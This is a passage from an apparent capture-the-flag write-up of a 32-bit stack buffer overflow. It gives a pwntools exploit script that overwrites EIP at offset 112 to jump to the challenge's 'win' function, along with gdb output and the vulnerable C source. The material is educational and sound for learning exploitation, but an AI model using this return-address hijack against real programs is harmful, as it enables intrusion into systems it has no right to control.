Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabCCCC

```



Note now that, we stopped at $eip again and now the value is 0x43434343 "CCCC" we have just rewrite $eip :)
```
At this point, we can add an offset and snap in the win function 
**the flag function** address as well. One Think to keep in mind,
is that we have this little endian thing that we have to sort, but even better.
We can make it jump to the win function and then return to the main funtion!. 
Let's start testing
```


<!---->

``` python
#!/usr/bin/env python3

import argparse
import pwn

elf=pwn.ELF("./vuln")
p = elf.process()
offset = 112
# super cool function from pwn tools, so we don't
# have to search anymore for the win function
# pwn.p32(elf.symbols["win"])
new_eip = pwn.p32(elf.symbols["win"])
return_address = pwn.p32(elf.symbols["main"])

payload = b"".join([b"A" * 112, new_eip, return_address])                         
payload += b"\n"

#let's create a file for the payload an open it with a file pointer
#and let's create a breakpoint to the win function and read our payload
with open("payload","wb") as flip:
    flip.write(payload)
p = elf.process()
g = pwn.gdb.attach(
        p,
        gdbscript="""
        b *win
        r < payload
        """,
)
p.interactive()

```

Now if we run our exploit.py, we should stop at the win function and we should\
see out AAAAs from our payload and as we see below, great, it is.



A few steps ahead with _ni_ command in gdb shows that we fill the stack esp with 0x41414141

_The stack pointer -- also referred to as the extended stack pointer (ESP) -- ensures that the program always adds data to the right location in the stack. The stack stores data from the top down, following a last in, first out (LIFO) data structure._



* if we still go _ni_ a few steps forward in the program, we end up with a function trying to read a flag.txt so let me create it\
* A few more _ni_ drops us to the function were we suppose to give the arguments 0xcafef00d and 0xf00df00d



Let's examine what is $ebp + 0x8

``` bash
0x804930c <win+118>        cmp    DWORD PTR [ebp+0x8], 0xcafef00d
gef➤  x $ebp+0x8
0xffffd024:     0xf7c08200
gef➤  
```

As we can see it compares ebp with 0xcafef00d and as is not equal it fails but we see going forward with
_ni_ that we endup reaching the return address and it jumps to the main function again.

_We should now provide the arguments 0xcafef00d and 0xf00df00d_. Got to remember the LIFO and we know that de second argument is sent first.

``` python
**vuln.c**
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```


